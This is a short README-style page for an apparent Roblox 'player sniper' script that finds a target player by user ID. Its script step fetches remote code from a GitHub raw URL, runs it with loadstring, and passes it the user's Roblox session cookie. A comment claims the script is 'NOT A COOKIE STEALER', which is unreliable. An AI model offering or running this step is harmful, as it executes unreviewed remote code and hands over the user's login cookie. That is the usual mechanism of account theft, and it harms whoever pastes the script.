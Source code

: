 # Requirements

* MUST HAVE USERID OF TARGET PLAYER.
* PLAYER MUST BE IN SAME EXPIREANCE TO WORK. (not place/server)

# SCRIPT :

local scriptlink = "https://raw.githubusercontent.com/Robvalt/roblox-player-sniper/refs/heads/main/sniper.luau" --// DO NOT CHANGE
local cookie = "" --// NOT A COOKIE STEALER! THIS IS USED FOR AUTH AND SECURITY WHEN GETTING THE GAME THE PLAYER IS ON. Short For Roblox Cookie.

loadstring(game:HttpGet(scriptlink))(cookie)
